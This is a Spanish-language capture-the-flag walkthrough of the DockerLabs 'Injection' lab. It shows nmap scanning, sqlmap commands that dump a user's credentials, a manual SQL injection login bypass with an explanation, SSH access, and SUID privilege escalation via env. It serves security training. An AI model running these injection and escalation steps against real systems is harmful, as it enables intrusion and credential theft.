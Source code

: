 - plataforma: https://dockerlabs.es/#/
- Mirror: https://mega.nz/file/wLN2nQ7B#p0YzUFAsrE3ilnJ9HzMr1hfsUq2DPYiDHlIU_9IEizU
- Nombre: Injection
- Dificultad: muy fácil
- Herramientas:
 - Ping
 - NMAP
 - WhatWeb
 - SQLMAP
 - Puerto 22 SSH - SFTP



Deploy:

```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh injection.tar
```
![image]([https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Despliegue%20me%20maquina.png?raw=true](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Deploy.png)


Ping para comprobar conectividad y ver el ttl: 64
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Ping.png)

Reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

Puertos abiertos:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Nmap.png)

Nos encontramos los puertos 
- 22
- 80
Primero investigamos el puerto 80
Web:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Web.png)

WhatWeb no nos da mucha información

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Whatweb.png)

Intento varios Usuarios y contraseñas pero conm ninguno acccedo, en todos me da el mensaje:
Wrong Credentials

Vamos a ver algo más sobre eta web


Vamos a ver si con SqlMap podemos sacar algo:

```sh fold:"Sql map"
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
# information_schema
# mysql
# performance_schema
# regyster
# sys
sqlmap -u http://172.17.0.2/index.php --forms -D --tables --batch
# [1 table]
# +-------+
# | users |
# +-------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users --columns --batch
# +----------+-------------+
# | Column   | Type        |
# +----------+-------------+
# | passwd   | varchar(30) |
# | username | varchar(30) |
# +----------+-------------+
sqlmap -u http://172.17.0.2/index.php --forms -D -T users -C passwd,username --dump --batch
# +------------------+----------+
# | passwd           | username |
# +------------------+----------+
# | KJSDFG789FGSDF78 | dylan    |
# +------------------+----------+

```
Otra forma de hacer el Sql Injection:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SQL%20Injection%20manual.png)

Explicacion:
Ahora bien, suponiendo que la consulta que busca un usuario en la base de datos es la siguiente:

```sql
SELECT * FROM usuarios WHERE username = 'admin' AND password = 'password';
```

Si insertamos la inyección SQL (`admin' OR 1=1 -- -`) en donde está el texto "admin", la consulta quedará de esta manera:

```sql
SELECT * FROM usuarios WHERE username = 'admin' OR 1=1 -- - AND password = 'password';
```
Esto es posible porque los parámetros de la consulta no están validados:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Codigo%20consulta%20sin%20validar.png)


Acceso con usuario dylan:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20User%20access.png)

Vamos a intentar entrar por SSH con este usuario y esta contraseña:

Acceso por ssh con el usuario dylan:

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20SSH%20dylan%20user.png)


## Escalada de privilegios
sudo -l
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20sudo-l.png)

find / -perm -4000 2>/dev/null

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Suid.png)

Buscamos en Gtfobins algunos de estos suid
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20gtfobbins%20env.png)
Encuentro env:
lo ejecutamos con las rutas absolutas


![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Injection/Images/DockerLabs%20-%20Injection%20-%20Escalada%20de%20privilegiso.png)]

DockerLabs - Injection -
